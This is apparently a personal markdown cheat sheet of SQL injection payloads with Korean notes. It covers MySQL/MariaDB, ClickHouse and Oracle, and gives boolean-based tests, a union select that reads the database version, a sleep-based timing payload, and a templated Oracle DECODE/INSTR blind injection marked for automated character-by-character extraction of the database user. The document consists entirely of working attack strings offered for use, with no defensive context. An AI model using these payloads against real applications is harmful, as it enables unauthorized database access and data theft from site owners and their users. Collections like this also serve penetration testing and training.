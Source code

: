 # SQLI PAYLOAD

## mysql mariadb
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*"  
"2param":" */ union select 0,0,0,@@version,0 --a"  
DESC, (select sleep(3)) -- -  



## clickhouse
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  


## oracle
정렬부분(쿼터, SELECT 없이 )
->
DECODE(INSTR(CHR(65),CHR(65),1,1),1,TRUE값,FALSE값)

DECODE(INSTR(CHR(65),CHR(66),1,1),1,TRUE값,FALSE값)

->자동화 공격

DECODE(INSTR(USER,CHR({ascii_code}),{pos},1),{pos},TRUE값,FALSE값)

